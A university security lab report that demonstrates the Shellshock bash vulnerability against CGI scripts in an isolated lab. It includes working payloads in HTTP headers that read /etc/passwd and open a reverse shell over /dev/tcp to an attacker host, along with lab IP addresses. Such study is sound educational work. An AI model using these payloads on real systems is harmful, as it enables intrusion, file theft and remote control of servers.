# CIS 751 Lab 2 Report
### Author: Chuck Zumbaugh
### Collaborators: None

## Task 1
In this task we check to see if the `/bin/bash_shellshock` and `/bin/bash` shells are vulnerable to shellshock. Shellshock was a vulnerability in bash that exploited how environment variables are passed to child processes. Specifically, if a bash function is written as a string and saved as an environment variable (ex. `foo='() { echo Hello, World; };'`) it will be parsed as a function when the environment variables are inherited by a child process. Moreover, bash parses and executes when evaluating this, so subsequent commands will be executed when the function is parsed. For example, the string `"Executed"` will be printed when the below environment variable is inherited by a child process.
```sh
FOO='() { echo junk; }; echo Executed'
``` 

This behavior is demonstrated in Figure 1. If we create the following shell variable:
```sh
export FOO='() { echo Hello; }; echo vulnerable'
```
We would expect a vulnerable version of bash to print the string `"vulnerable"`. As a result, we can execute arbitrary commands using the above method.



However, Figure 2 illustrates that the updated version of bash is not susceptible to this vulnerability. When the new bash shell is spawned, `"vulnerable"` is not printed. Upon further inspection, it is evident that the environment variable `FOO` has not been parsed as a function and remains a string.



## Task 2
Figure 3 illustrates how we can use a simple CGI script to return some data on a GET request. This program simply prints out `"Hello World"` when executed. 
```sh
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

Ultimately, this is the script we will exploit and is can be called using the following.
```sh
curl http://localhost/cgi-bin/myprog.cgi
```

## Task 3
In this task we will demonstrate how we can modify environment variables during request processing. To demonstrate this, we shall use a modification of the above CGI script.
```sh
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo "****** Environment Variables ******"
strings /proc/$$/environ
```
When executed, this CGI script will return a list of all environment variables in the current process. For example, when `curl http://localhost/cgi-bin/myprog2.cgi` is executed we get the following returned:



Note that the HTTP headers are included in these environment variables, so the bash program must be including them before executing the CGI script. We can verify this with the below request.
```sh
curl http://localhost/cgi-bin/myprog2 -H "User-agent: my string"
```

The below figure illustrates the result of this request. The HTTP_USER_AGENT variable, which was previously curl/7.47.0, is now "my string". Thus, we can manipulate the environment variables through HTTP headers that are sent with the request.



## Task 4
We will now launch a Shellshock attack and steal the contents of the `/etc/passwd` file. To do this, we will modify the environment variables as described in Task 3 in such a way that we are able to emulate the behavior of `strings /proc/$$/environ` in the modified CGI script of Task 3. As described in Task 1, we can do this by defining an environment variable as the string representation of a function, and adding a command to end that is executed when the string is parsed. Since we want the data in `/etc/passwd`, the command we wish to execute is `strings /etc/passwd`. Specifically, we want to set an environment variable as follows.
```sh
VAR="() { :; }; echo; /bin/bash -c 'strings /etc/passwd'"
```

This string contains an initial function that does nothing, followed by an echo, and a command to spawn a bash shell and execute `strings /etc/passwd`. Indeed, if we run this we receive the contents of the file as expected.



However, we are unable to steal the contents of /etc/shadow. This is because the bash program that is invoked does not have read permissions for this file.



## Task 5:
We will now launch a Shellshock attack to receive a reverse shell to the machine. Similar to Task 4, we will pass a malicious HTTP header that will set up the reverse shell when parsed and executed by a vulnerable bash program. As described in the lab text, we wish to execute the following command on the victim machine where LHOST and LPORT are the IP address and listening port of the attacking machine.
```sh
/bin/bash -i /dev/tcp/<LHOST>/<LPORT> 0<&1 2>&1
```

This command will call /bin/bash in interactive mode (-i), and direct the output of the shell to the TCP connection to LHOST's LPORT (/dev/tcp/<LHOST>/<LPORT>). We then indicate to use the same TCP connection as the input device by specifying to use the standard output device as the standard input device (0<&1). Finally, we also indicate the stderr output to be directed to stdout (the TCP connection) with 2>&1.

Our request now becomes the following, where `<RHOST>` is the IP address of the victim.
```sh
curl -H "User-Agent: () { :; }; echo; /bin/bash -i > /dev/tcp/<LHOST>/<LPORT> 0<&1 2>&1" "http://<RHOST>/cgi-bin/myprog.cgi"
```

We can run this on localhost and receive a reverse shell.





However, we can also attack this machine as a remote user. The below figures illustrate executing this attack from the Kali machine. Note that in these examples the variables in the request are as follows.

| Variable | Value |
| -------- | ----- |
| LHOST    | 192.168.219.134 |
| LPORT    | 8888 | 
| RHOST    | 192.168.219.165 |



